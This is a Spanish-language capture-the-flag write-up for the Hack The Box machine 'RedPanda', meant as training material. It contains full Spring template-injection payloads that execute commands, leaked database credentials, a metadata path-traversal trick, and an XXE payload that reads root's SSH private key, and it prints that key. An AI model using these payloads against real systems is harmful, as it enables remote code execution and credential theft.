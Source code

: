 ```yaml
---
title: Red Panda Writeup
published: false
---
```




Hoy resolveremos la maquina retirada "RedPanda" es una maquina de hack the box de dificultad facil.


![RedPanda](https://user-images.githubusercontent.com/109216235/185928422-3e828dfa-543c-4e4f-b1e0-c1a2fdced03b.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la maquina con nmap


```nmap
nmap -sC -sV -T4 10.10.11.170
Nmap scan report for 10.10.11.170
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy

```

Con este analisis podemos ver que tiene el puerto ssh y el puerto http abierto. Esto nos hace enteder que esta maquina tiene un puerto para acceder de forma remota y un puerto para poder acceder en internet


![imagen](https://user-images.githubusercontent.com/109216235/185764843-feace9a3-e2e5-43e9-a1c4-3271e7620de2.png)


# [](#header-2) Vulnerabilidad


Dentro de la pagina vemos un buscador y probando payloads vemos que nos bloquea el caracter $


![imagen](https://user-images.githubusercontent.com/109216235/185764827-93488e1f-c4de-4f1c-b9fb-d89c58276616.png)


Probamos con el caracter * y vemos que si que nos deja


![imagen](https://user-images.githubusercontent.com/109216235/185764892-8e6c1201-4efe-42bd-a6c4-26852677a38e.png)


Sabiendo esto usando esta herramienta de VikasVarshney https://github.com/VikasVarshney/ssti-payload podemos crear un payload que nos permita ejecutar comandos en el buscador. Si ponemos este payload en el buscador conseguiremos la "user.txt".


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Utilizando la misma tecnica encontramos un archivo en esta ruta /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java Utilizando este payload 


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```


Y nos devuelve esto


```javascript
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
stmt.setString(1, "%" + query + "%");
```


Este output nos indica un posible usuario y una posible contraseña. Probando conseguimos acceder al ssh


```bash
ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
```


# [](#header-3) Escalada de privilegios


Ahora subimos "pspy" al servidor y vemos que root corre un script como woodenk.

```python3
CMD: UID=0    PID=8420   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=8422   | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=8423   | /usr/bin/find /tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8424   | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8425   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8426   | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ;
CMD: UID=1000 PID=8429   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8430   | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8432   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```


Revisando de nuevo el archivo donde encontramos credenciales vemos como exporta el xml


```python3
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
  public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }

```

Vemos también como el archivo App.java maneja los metadatos

```python3
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

Mirando esta configuración podemos modificar el campo "Artist" de una imagen cualquiera que después subiremos a la máquina

```python3
wget "https://avatars.githubusercontent.com/u/95899548?v=4"
Longitud: 33411 (33K) [image/jpeg]
Grabando a: «758475?v=4»

758475?v=4               100%[====================================>]       

«758475?v=4» guardado [33411/33411]

mv 758475\?v=4 eskere.jpg

exiftool -Artist="../home/woodenk/privesc" eskere.jpg
    1 image files updated
    
scp gato.jpg woodenk@10.10.14.28:.
woodenk@10.10.11.170's password: RedPandazRule
gato.jpg                                                 100%
```

A continuación creamos un archivo XML que apunte a la id_rsa de root en el directorio home.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Hacemos una petición curl con el formato de que vimos en el archivo como User-Agent


```curl
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/eskere.jpg"
```


Exportamos el xml desde /stats que coja nuestro archivo

Despues de un rato revisamos el xml y tendra el id_rsa de root


```xml
cat privesc_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/eskere.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

Finalizamos introduciendo el id_rsa para conectarnos por ssh y conseguir la root.txt

```bash
ssh root@10.10.11.170 -i id_rsa
root@redpanda:~# cat root.txt 
```
